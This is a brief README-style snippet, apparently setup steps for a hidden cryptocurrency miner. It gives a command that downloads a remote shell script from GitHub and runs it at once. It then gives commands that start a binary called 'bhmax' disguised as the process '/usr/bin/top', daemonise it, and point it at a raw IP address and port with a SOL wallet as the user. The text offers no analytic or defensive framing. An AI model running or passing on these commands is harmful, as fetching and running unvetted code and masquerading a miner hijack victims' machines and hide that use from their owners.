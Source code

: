##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh

##action two
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xbh --pass x-bh

###3

./hi -s "/usr/bin/top" -d -p test.pid ./usr/local/lib/bhmax

